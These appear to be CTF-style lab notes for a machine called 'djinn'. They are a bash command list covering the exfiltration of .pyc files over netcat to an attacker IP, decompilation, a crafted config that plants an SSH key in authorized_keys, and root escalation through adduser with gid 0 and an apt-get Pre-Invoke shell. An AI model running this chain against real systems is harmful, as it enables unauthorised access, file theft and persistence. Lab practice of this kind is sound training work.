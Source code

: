 ```bash
cd /var/www
cat local.txt
ifconfig

# Privilege Escalation
cd /opt
## Decrypting .pyc files
### In kali
nc -lvnp 9000 > configuration.cpython-38.pyc
### In djinn
nc -w 3 192.168.49.99 9000 < .configuration.cpython-38.pyc
### In kali
nc -lvnp 9000 > syncer.cpython-38.pyc
### In djinn
nc -w 3 192.168.49.99 9000 < .syncer.cpython-38.pyc
### In kali
pip install uncompyle6
python /usr/local/bin/uncompyle6 configuration.cpython-38.pyc > decompiled-configuration.cpython-38.py
python /usr/local/bin/uncompyle6 syncer.cpython-38.pyc > decompiled-syncer.cpython-38.py
## Creating evil payload
nano 23-03-2022.config.json
### File contents
{                                                                                                                            
        "URL":"http://192.168.49.99/id_rsa.pub",                                                                              
        "Output":"/home/saint/.ssh/authorized_keys"                                                                          
}  
## In kali
cp /home/kali/.ssh/id_rsa.pub .
python3 -m http.server 80 # wait 3 minutes
ssh -i /home/kali/.ssh/id_rsa saint@192.168.99.102
## In djinn, as saint
sudo -l
sudo adduser jason --gid 0
su jason
## In djinn as jason
sudo -l
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

# Post-Exploitation
cd /root
cat proof.txt
ifconfig
```
